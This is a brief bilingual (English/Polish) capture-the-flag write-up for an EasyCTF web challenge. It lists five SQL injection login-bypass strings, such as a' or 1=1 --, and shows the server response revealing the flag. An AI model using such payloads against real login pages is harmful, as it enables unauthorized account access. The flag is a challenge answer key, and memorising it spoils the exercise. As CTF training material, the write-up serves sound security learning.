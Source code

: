 ## SQL_Injection_1 [WEB 100]

>I need help logging into this website to get my flag! If it helps, my username is admin.
>http://injection1.web.easyctf.com/

### EN / [PL](#rozwiązanie)

### Solution:

Hit after fifth attempt

```
a' or 1=1 -- 
a' or '1'='1' -- 
a' or 1=1;
a' or '1'='1' -- '
a" or 1=1 -- "
```

Server response:

```
Thanks for logging in. Your flag is easyctf{a_prepared_statement_a_day_keeps_the_d0ctor_away!}
```

### [EN](#solution) / PL

### Rozwiązanie:

Kilka prób i trafienie za 5 razem :-)

```
a' or 1=1 -- 
a' or '1'='1' -- 
a' or 1=1;
a' or '1'='1' -- '
a" or 1=1 -- "
```

Odpowiedź serwera:

```
Thanks for logging in. Your flag is easyctf{a_prepared_statement_a_day_keeps_the_d0ctor_away!}
```
